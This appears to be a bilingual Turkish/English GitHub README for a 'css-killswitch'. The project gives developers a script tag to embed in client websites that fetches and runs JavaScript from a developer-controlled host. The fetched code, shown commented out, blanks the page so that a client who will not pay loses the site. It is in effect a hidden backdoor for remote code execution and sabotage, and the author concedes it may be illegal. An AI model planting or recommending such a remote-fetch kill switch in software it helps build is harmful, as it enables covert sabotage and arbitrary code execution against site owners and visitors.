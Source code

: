 # css-killswitch
The holy CSS killswitch that devastates HTML body.


## Türkçe ##

Eğer benim gibi ufak-orta ölçekli projelerle uğraşıyorsanız, ve proje altyapısı sizin elinizde değilse, yani hosting&domain ikilisi size ait değilse, bu kod işinize yarayacaktır.

```sh
<script type="text/javascript">

jQuery.ajax({

type: "GET",

url: "http://seninelindekibirsite.com/killswitch/acildurum.js",

dataType: "script"

});

</script>
```

bu script tag'inin içindeki get işlemi, sizin kontrolünüz altında olan bir siteden acildurum JS dosyamızı çağırır. Peki acildurum.js'nin içinde ne var?

```sh

/*jQuery("body").css("display","none");
$( "body" ).append( "<p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p>" );*/
```

Tabi ki siteyi kullanılmaz hale getiren ufak bir kod bloğu. Ve paramızı ödemekte problem çıkartan müşteri, götüm götüm bizi kovalamaya başlıyor. Sorun çözüldü!

Not: Bu kodu kullanıp projeyi kullanılmaz hale getirmeniz ile ilgili bütün yasal sorumluluk size aittir. Eğer müşteri ile iletişim kuramıyorsanız, ödemenizi alıp projeyi sonlandırma pencereniz tamamen kapandıysa, bu kod muhtemelen iyi bir seçim olacaktır.

Eğer çalışmayı beğendiyseniz, lütfen bana bir kahve alın: http://buymeacoff.ee/ilgink

## English ##

Hey! If you dude work on small-mid range projects and don't own the domain&hosting infrastructure, that code might be the catch for you.





```sh
<script type="text/javascript">

jQuery.ajax({

type: "GET",

url: "http://seninelindekibirsite.com/killswitch/acildurum.js",

dataType: "script"

});

</script>
```

This script tag calls a script from a website you own, and let's see what we got here?

```sh

/*jQuery("body").css("display","none");
$( "body" ).append( "<p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p>" );*/
```

Of course, a code block to get website unaccessible. Client that refuses the pay up will get his/her *ss on fire soon, problem solved!

Note that I'm not responsible for the illegal use of that code block, all the legal responsibility on you. It's a final solution for client doesn't come up on phone calls, and the certain consequences that you get ripped off. Also note that you're gonna be the guilty side if you had a partial payment for the project.

Please buy me a coffee if you like the work here: http://buymeacoff.ee/kilgin
